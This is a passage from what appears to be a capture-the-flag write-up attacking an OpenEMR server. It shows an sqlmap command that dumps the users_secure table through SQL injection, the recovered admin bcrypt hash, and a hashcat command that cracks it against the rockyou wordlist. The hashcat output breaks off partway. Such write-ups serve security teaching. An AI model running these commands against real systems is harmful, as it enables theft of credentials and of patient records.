 
I dumped the `users` table, but didn’t find much. In `users_secure`, I found
the admin login:

    
    
    root@kali# sqlmap -r add_edit_event_user.request -D openemr -T users_secure --dump
    ...[snip]...
    Database: openemr
    Table: users_secure
    [1 entry]
    +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
    | id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
    +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
    | 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
    +------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
    ...[snip]...
    

### Crack Hashes

I’ll save the hash to a file:

    
    
    root@kali# cat openemr_admin.hash 
    openemr_admin:$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B
    

The hash matches `bcrypt $2*$, Blowfish (Unix)` from the [Hashcat example
hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes), which is
type 3200. This is a slow hash to crack, but it cracks very quickly:

    
    
    root@kali# hashcat -m 3200 openemr_admin.hash /usr/share/wordlists/rockyou.txt --user --force                                                                                                              
    hashcat (v5.1.0) starting...
    
    OpenCL Platform #1: The pocl project
    ====================================
    * Device #1: pthread-Intel(R) Core(TM) i7-7700 CPU @ 3.60GHz, 1024/2955 MB allocatable, 3MCU
    
    Hashes: 1 digests; 1 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1
    
    Applicable optimizers:
    * Zero-Byte
    * Single-Hash
    * Single-Salt
    
    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 72
    
